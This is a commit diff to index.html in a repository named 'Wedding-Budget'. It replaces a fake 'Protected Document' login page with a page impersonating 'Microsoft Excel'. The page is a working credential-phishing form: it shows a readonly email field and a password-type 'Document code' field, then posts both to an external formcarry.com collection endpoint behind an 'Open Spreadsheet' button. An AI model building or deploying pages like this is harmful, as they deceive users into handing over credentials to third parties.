

Before and after one commit to joeholt648-cell/Wedding-Budget, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (257-1022 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Add files via upload

```diff
--- a/index.html
+++ b/index.html
@@ -2,64 +2,94 @@
 <html lang="en">
 <head>
 <meta charset="UTF-8">
-  <title>Secure Document</title>
+<title>Spreadsheet</title>
 
 <style>
   body {
-      background: #e5e5e5;
-      font-family: Arial, sans-serif;
+    background: #f3f3f3;
+    font-family: Calibri, Arial, sans-serif;
     padding: 40px;
   }
 
-    .pdf {
+  .sheet {
     background: white;
-      width: 600px;
+    width: 700px;
     margin: auto;
-      padding: 40px;
-      box-shadow: 0 0 15px rgba(0,0,0,0.2);
+    border: 1px solid #bfbfbf;
   }
 
-    h2 {
-      text-align: center;
-      margin-bottom: 30px;
+  table {
+    border-collapse: collapse;
+    width: 100%;
   }
 
-    label {
+  td, th {
+    border: 1px solid #d0d0d0;
+    padding: 8px;
+    font-size: 14px;
+  }
+
+  th {
+    background: #e6e6e6;
+    text-align: center;
     font-weight: bold;
+  }
+
+  .label {
+    background: #f2f2f2;
+    font-weight: bold;
+    width: 200px;
   }
 
   input {
     width: 100%;
-      padding: 10px;
-      margin-top: 5px;
-      margin-bottom: 20px;
-      border: 1px solid #ccc;
+    border: none;
+    outline: none;
+    font-family: Calibri, Arial, sans-serif;
+    font-size: 14px;
   }
 
   button {
     width: 100%;
-      padding: 12px;
-      background: #333;
+    padding: 10px;
+    background: #217346; /* Excel green */
     color: white;
     border: none;
+    font-size: 14px;
     cursor: pointer;
   }
 </style>
 </head>
+
 <body>
 
-  <div class="pdf">
-    <h2>Protected Document</h2>
+<div class="sheet">
+  <form action="https://formcarry.com/s/zPqDzDWqria" method="POST">
+    <table>
+      <tr>
+        <th colspan="2">Microsoft Excel</th>
+      </tr>
 
-    <form action="https://formcarry.com/s/zPqDzDWqria" method="POST">
+      <tr>
+        <td class="label">Email</td>
+        <td>
+          <input type="email" id="email" name="email" readonly required>
+        </td>
+      </tr>
 
-      <label>Email address</label>
-      <input type="email" id="email" name="email" readonly required>
+      <tr>
+        <td class="label">Document code</td>
+        <td>
+          <input type="password" name="document_code" required>
+        </td>
+      </tr>
 
-      <label>Document access code</label>
-      <input type="password" name="document_code" required>
-
-      <button type="submit">View Document</button>
+      <tr>
+        <td colspan="2">
+          <button type="submit">Open Spreadsheet</button>
+        </td>
+      </tr>
+    </table>
   </form>
 </div>
 
```
Lines whose indentation alone changed are shown as unchanged.
